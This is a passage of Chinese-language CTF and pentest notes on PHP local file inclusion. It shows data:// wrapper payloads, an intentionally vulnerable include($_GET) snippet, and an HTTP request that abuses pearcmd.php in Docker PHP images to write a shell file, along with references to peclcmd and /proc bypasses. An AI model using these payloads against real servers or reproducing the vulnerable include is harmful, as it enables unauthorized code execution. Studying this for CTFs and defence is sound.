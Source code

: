 - **用法**：

  ```php
  data://text/plain,<?php phpinfo();
  data://text/plain;base64,[Base64编码后的代码]
  ```

- **示例**：

  ```php
  # 注意使用 data:// 的时候必须开启 allow_url_include 和 allow_url_fopen
  <?php
    highlight_file(__FILE__);
    include($_GET['filename']);
  ?>

  推荐使用 `base64` 编码进行参数的传递

  ![img](./assets/include/image12.jpeg)

## bypass

### pearcmd

在[Docker PHP裸文件本地包含综述](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)中，提到了 `pearcmd.php` 的利用方法。该方法无需竞争条件，也没有额外的版本限制，只要是Docker启动的PHP环境即可通过一个数据包搞定。

> 在Docker的任何版本镜像中，`pcel/pear`都会被默认安装，安装路径在`/usr/local/lib/php`

通过发送以下数据包，目标将写入一个文件 `/tmp/hello.php`，其中包含 `<?=phpinfo()?>`。然后，利用文件包含漏洞包含这个文件即可实现getshell。

```http
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
Host: 192.168.1.162:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```

### peclcmd

与 `peclcmd` 相似，参考 [SEETF-2023](https://github.com/zeyu2001/My-CTF-Challenges/blob/main/SEETF-2023/readonly/README.md) 中的一道题目。

### proc

在文件包含漏洞的情境中，通常会存在非预期的情况，例如 [Dreamer_revenge](https://5ime.cn/hmgb-2023.html#Dreamer-revenge)（红明谷杯 2023）、[ArkNights](https://jbnrz.com.cn/index.php/2023/09/03/ycb2023/#header-id-13)（羊城杯 2023）、[YamiYami](https://ph0ebus.cn/post/HDCTF2023 Writeup.html#非预期解)（HDCTF 2023）、[MyBox](https://www.cnblogs.com/gxngxngxn/p/17662463.html)（NSSCTF 2nd）。因此，如果出题人未清空变量，很有可能通过 `/proc` 实现非预期攻击。
